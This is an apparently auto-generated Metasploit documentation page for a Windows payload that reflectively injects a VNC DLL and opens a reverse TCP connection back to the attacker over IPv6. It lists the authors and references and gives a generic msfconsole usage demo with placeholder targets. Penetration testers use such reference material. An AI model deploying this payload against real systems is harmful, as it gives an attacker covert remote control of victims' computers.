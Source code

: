 ## VNC Server (Reflective Injection), Reverse TCP Stager (IPv6)

Inject a VNC Dll via a reflective loader (staged). Connect 
back to the attacker over IPv6


## Module Name
payload/windows/vncinject/reverse_ipv6_tcp

## Authors
* sf
* hdm
* skape


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/vncinject/reverse_ipv6_tcp
msf payload(reverse_ipv6_tcp) > show targets
   ... a list of targets ...
msf payload(reverse_ipv6_tcp) > set TARGET <target-id>
msf payload(reverse_ipv6_tcp) > show options
   ... show and set options ...
msf payload(reverse_ipv6_tcp) > run
```
    
    
